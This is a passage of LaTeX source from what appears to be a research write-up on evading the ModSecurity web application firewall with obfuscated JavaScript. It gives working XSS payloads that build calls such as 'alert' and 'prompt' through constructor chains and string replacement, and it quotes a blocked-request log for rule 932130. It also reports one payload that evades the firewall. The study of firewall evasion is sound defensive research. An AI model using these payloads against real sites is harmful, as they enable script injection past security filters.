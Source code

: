 weird unicode: tried using
\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
console.log(encodeURIComponent('[][`constructor`][`constructor`]`a\uFE69{`al`+[open+[]][0][11]+`rt`+[open+[]][0][13]+[`"`][0]+`Oneconsult`+[`"`][0]+[open+[]][0][14]}```'))

but result is

{\t\"test2\": \"[][`constructor`][`constructor`]`a__{`al`+[open+[]][0][11]+`rt`+[open+[]][0][13]+[`\"`][0]+`Oneconsult`+[`\"`][0]+[open+[]][0][14]}```\"}

tried using \u0000 - \u0009, \u2028, \u2029 but that makes the payload invalid. would work in the case when some characters are filtered first by the application, like linebreaks
\end{lstlisting}

in contrary to not using \verb|()|, a payload thats not using any \verb|{}| but still allows for tagged template literals or other usages of \verb|{}| can be created using string replace. the example payload in Listing~\ref{lst:stringreplaceblocked} is being blocked by the modsecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} example, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput${2+2}`')();</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

if one uses a string replace strategy like mentioned in \ref{sec:stringreplace}, a payload in the form of

\begin{lstlisting}[style=basicStyle, caption=string replace to evade {} detection, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

successfully evades the firewall.


